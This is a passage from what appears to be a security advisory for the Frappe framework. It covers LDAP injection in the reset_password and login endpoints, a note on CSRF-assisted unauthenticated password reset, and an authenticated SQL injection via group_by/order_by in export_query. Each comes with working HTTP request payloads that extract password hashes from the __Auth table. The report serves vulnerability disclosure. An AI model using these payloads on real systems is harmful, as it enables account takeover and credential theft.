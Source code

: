     - **Request:**

        ```HTTP
        GET /api/method/frappe.integrations.doctype.ldap_settings.ldap_settings.reset_password?user=admin*&password=test&logout=0
        ```
    - This can also be exploited with the CSRF bypass achieving unauthenticated LDAP password reset of any user.

- `authenticate` (Line 311)
    - User input is unsafely used to construct the LDAP search string:

        `user_filter = self.ldap_search_string.format(username)`
    - This can allow an attacker to craft an input that manipulates the LDAP query, possibly accessing private user's information.
    - **Request:**
        ```HTTP
        POST /api/method/frappe.integrations.doctype.ldap_settings.ldap_settings.login
        Host: localhost:8080
        Content-Length: 54
        X-Requested-With: XMLHttpRequest
        Content-Type: application/json


        {"usr":"adm*)(|(cn=*)(|(sn=*)(|(cn=*)))", "pwd":"test"}
        ```
    - This can be abused in larger LDAP databases to do timing attack, since the application first checks whether the user exists and after that tries to rebind the connection with retrieved user and provided password.

### **6. Authenticated SQL Injection**
The SQL query in `execute_query` method is formatted as follows:
```python
query = """select {fields} 
            from {tables} 
            {conditions} 
            {group_by} 
            {order_by} 
            {limit}""".format(**args)
 ```
On both `order_by` and `group_by` is applied similar filter. The filter being bypassed is located in `frappe.model.db_query.py` (line 1114):
```python
    if "select" in _lower and "from" in _lower:
```
An attacker can bypass this check by setting:
```python
group_by = "name UNION SELECT '"
order_by = "',null,...,null,name,password FROM __Auth"
```

This results in a final query that extracts username and password hashes from the `__Auth` table.

Sending the following request:
```HTTP
GET /api/method/frappe.desk.reportview.export_query?ignore_permissions=True&doctype=Notification+Settings&fields=*&file_format_type=CSV&group_by=name+UNION+SELECT+'&order_by=',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,name,password+FROM+__Auth HTTP/1.1
Host: localhost:8080
Cookie: system_user=no; user_image=; sid=1a04399debb6cfc1d63eb5f52d12fb03b03b8c2167e63a953f6d4404; full_name=jdoe%40example.org; user_id=jdoe%40example.org
```
